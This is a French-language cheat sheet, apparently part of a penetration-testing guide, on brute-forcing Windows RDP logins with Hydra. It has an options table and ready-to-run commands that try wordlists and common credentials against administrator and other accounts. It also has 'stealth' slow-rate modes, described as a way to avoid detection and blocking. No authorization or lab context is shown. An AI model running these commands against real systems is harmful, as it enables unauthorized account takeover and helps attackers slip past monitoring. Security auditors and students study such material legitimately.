 ### Options spécifiques RDP
| Option | Description | Exemple |
|--------|-------------|---------|
| `-l <user>` | Utilisateur unique | `-l administrator` |
| `-L <file>` | Liste d'utilisateurs | `-L users.txt` |
| `-p <pass>` | Mot de passe unique | `-p Password123` |
| `-P <file>` | Liste de mots de passe | `-P passwords.txt` |
| `-t <threads>` | Threads (ATTENTION: max 4 pour RDP) | `-t 4` |
| `-f` | Arrêter après succès | `-f` |
| `-V` | Mode très verbose | `-V` |
| `-s <port>` | Port personnalisé | `-s 3389` |

### Exemples de brute force RDP

#### 1. Brute force utilisateur administrateur
```bash
# Test administrator avec liste de mots de passe
hydra -l administrator -P /usr/share/wordlists/rockyou.txt -t 4 -f rdp://target

# Avec options avancées
hydra -l administrator -P passwords.txt -t 4 -f -V -o rdp_results.txt rdp://target
```

**⚠️ IMPORTANT :** RDP a des limitations de connexions simultanées. Utiliser **maximum 4 threads** pour éviter de bloquer le service.

#### 2. Brute force liste d'utilisateurs Windows courants
```bash
# Utilisateurs Windows typiques
hydra -L windows_users.txt -P common_passwords.txt -t 4 -f -V rdp://target

# One-liner avec utilisateurs courants
hydra -L <(echo -e "administrator\nadmin\nroot\nguest\nuser") \
      -P <(echo -e "password\nPassword123\nadmin\n123456\npassword123") \
      -t 4 -f rdp://target
```

#### 3. Brute force avec délai (mode furtif)
```bash
# Mode lent pour éviter détection/blocage
hydra -l administrator -P passwords.txt -t 1 -w 5 -f rdp://target

# Mode très furtif
hydra -l administrator -P passwords.txt -t 1 -w 10 -f -V rdp://target
```

**Explication options timing :**
- `-t 1` : 1 seul thread (très important pour RDP)
- `-w 5` : 5 secondes entre tentatives
- `-w 10` : 10 secondes (ultra-furtif)
